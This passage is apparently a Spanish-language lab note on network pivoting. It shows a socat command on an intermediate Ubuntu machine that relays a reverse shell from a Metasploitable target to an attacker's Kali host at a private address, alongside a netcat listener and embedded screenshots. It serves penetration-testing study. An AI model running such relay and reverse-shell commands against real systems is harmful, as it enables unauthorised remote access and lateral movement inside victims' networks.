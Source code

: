 Dentro de la máquina Ubuntu intermedia, debemos ejecutar este comando para obtener una reverse shell de la máquina objetivo final hacia la máquina kali atacante, por lo que en primer lugar nos ponemos en escucha con netcat desde la máquina Kali:
![[Pasted image 20230722162103.png]]
Y en la máquina Ubuntu ponemos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
![[Pasted image 20230722162236.png]]
Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:
![[Pasted image 20230722162820.png]]
Y en Kali recibimos la conexión:
![[Pasted image 20230722162833.png]]
